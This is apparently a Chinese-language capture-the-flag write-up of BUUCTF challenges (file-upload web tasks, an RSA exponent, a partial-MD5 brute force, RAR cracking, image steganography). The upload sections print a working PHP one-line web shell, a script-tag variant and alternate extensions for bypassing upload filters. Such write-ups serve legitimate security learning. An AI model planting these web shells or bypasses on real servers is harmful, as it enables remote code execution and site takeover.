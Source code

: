 # BUUCTF-php后缀名

第六周  4月4日

**目录**

[TOC]



## WEB

### [极客大挑战 2019]Upload

打开环境 文件上传

一句话木马

```php
<?php @eval($_POST['a']);?>
```

尝试注入

<img src="https://i-blog.csdnimg.cn/blog_migrate/bbd909bc2f8be6615dc0d2b9e7f78355.png" alt="" style="max-height:544px; box-sizing:content-box;" />


返回需要图片 我们更改后缀名



<img src="https://i-blog.csdnimg.cn/blog_migrate/d0e6dec8c7d56620374ebd9fa6a20109.png" alt="" style="max-height:394px; box-sizing:content-box;" />




发现了 文件内容  看看是不是过滤了php语言

```cobol
<script language='php'>eval($_POST['a']);</script>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d534245fe986a09666912c1a190052b9.png" alt="" style="max-height:597px; box-sizing:content-box;" />


说明 是不是 文件头的检测



<img src="https://i-blog.csdnimg.cn/blog_migrate/6c64fe9c1cc12166d6fd6533f5031079.png" alt="" style="max-height:688px; box-sizing:content-box;" />


上传成功 我们需要php文件 所以抓包改后缀

<img src="https://i-blog.csdnimg.cn/blog_migrate/d6326a1755d8f9eb3c2721ad851fb36a.png" alt="" style="max-height:584px; box-sizing:content-box;" />


发现php 不可以 我们进行替代 绕过后缀检测 进行 尝试

```cobol
php,php3,php4,php5,phtml.pht
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a2222d6774fbaa747b1476f6ad44aa14.png" alt="" style="max-height:659px; box-sizing:content-box;" />




尝试蚁剑链接 我们猜测

```cobol
URL/upload/1.phtml
```

所以进行链接



<img src="https://i-blog.csdnimg.cn/blog_migrate/abc51417ffdae2845ac2bc9fa22b81fa.png" alt="" style="max-height:699px; box-sizing:content-box;" />


得到flag

### [ACTF2020 新生赛]Upload



<img src="https://i-blog.csdnimg.cn/blog_migrate/56b6c674ccfa596626942491d33ad0ea.png" alt="" style="max-height:478px; box-sizing:content-box;" />


文件上传



<img src="https://i-blog.csdnimg.cn/blog_migrate/9139b3ea5dd5c5943a95924f640fa7b5.png" alt="" style="max-height:353px; box-sizing:content-box;" />


使用 jpg的文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/202268ba7f762cd589ebfaa5ca6cf141.png" alt="" style="max-height:633px; box-sizing:content-box;" />


上传成功 我们需要用php执行 抓包改后缀

改php失败

<img src="https://i-blog.csdnimg.cn/blog_migrate/2bde4106d550456d5bb5c3b64b8a4417.png" alt="" style="max-height:166px; box-sizing:content-box;" />




改为phtml试试看



<img src="https://i-blog.csdnimg.cn/blog_migrate/3610cd826be2c0f248167807d2674ac5.png" alt="" style="max-height:151px; box-sizing:content-box;" />


成功 进行链接



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0ff67d1386d0916f887c2ac5377d01e.png" alt="" style="max-height:699px; box-sizing:content-box;" />


得到flag

## Crypto

### RSA

rsa密码 我们选择用脚本来破解

py脚本

```cobol
import gmpy2
p =gmpy2.mpz(473398607161)
q =gmpy2.mpz(4511491)
e =gmpy2.mpz(17)
phi_n= (p - 1) * (q - 1)
d = gmpy2.invert(e, phi_n)
print("d is:")
print (d)
```

```cobol
d is:
125631357777427553
```

得到flag

### 丢失的MD5

```cobol
import hashlib
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update('TASC'+chr(i)+'O3RJMV'+chr(j)+'WDJKX'+chr(k)+'ZM')
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print des
 
 
```

print函数错误

```cobol
import hashlib
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update('TASC'+chr(i)+'O3RJMV'+chr(j)+'WDJKX'+chr(k)+'ZM')
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print(des)
 
 
```

运行 然后报错

```vbnet
Unicode-objects must be encoded before hashing
Unicode对象必须在哈希之前进行编码
```

我们对updata的内容进行 字符串编码

```scss
import hashlib
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update('TASC'.encode('utf-8')+chr(i).encode('utf-8')+'O3RJMV'.encode('utf-8')+chr(j).encode('utf-8')+'WDJKX'.encode('utf-8')+chr(k).encode('utf-8')+'ZM'.encode('utf-8'))
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print(des)
 
 
```

进行utf-8编码

然后运行得到flag

```cobol
e9032994dabac08080091151380478a2
```

## Misc

### rar



<img src="https://i-blog.csdnimg.cn/blog_migrate/6cc8a954611d46d761958d2aa59e10a3.png" alt="" style="max-height:146px; box-sizing:content-box;" />


很明显就是让我们进行暴力破解



<img src="https://i-blog.csdnimg.cn/blog_migrate/9a4308575a47261ca97fba85460f02f6.png" alt="" style="max-height:455px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/a50f91b3404dde31ecdf0cad2282d199.png" alt="" style="max-height:455px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/944c20dd27958c9c7a7a0b20569cea40.png" alt="" style="max-height:195px; box-sizing:content-box;" />


得到密码

### qr

得到二维码 扫描即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/c039ff62c647feff0ed04ecbbf2c2b20.png" alt="" style="max-height:665px; box-sizing:content-box;" />


### 镜子里面的世界

打开文件 放入strgsolve

红0 上面发现有东西



<img src="https://i-blog.csdnimg.cn/blog_migrate/9f7c3812359950cf5f6167aa5633a15c.png" alt="" style="max-height:723px; box-sizing:content-box;" />


绿0



<img src="https://i-blog.csdnimg.cn/blog_migrate/fa516312cdd24df104e209fd80f40673.png" alt="" style="max-height:723px; box-sizing:content-box;" />


蓝也一样 我们进行提取



<img src="https://i-blog.csdnimg.cn/blog_migrate/9e09c3b4653a939af49e7d3cf54f479a.png" alt="" style="max-height:568px; box-sizing:content-box;" />


保存text



<img src="https://i-blog.csdnimg.cn/blog_migrate/16b1de18bb02d046e44044cb75b1175a.png" alt="" style="max-height:781px; box-sizing:content-box;" />


得到flag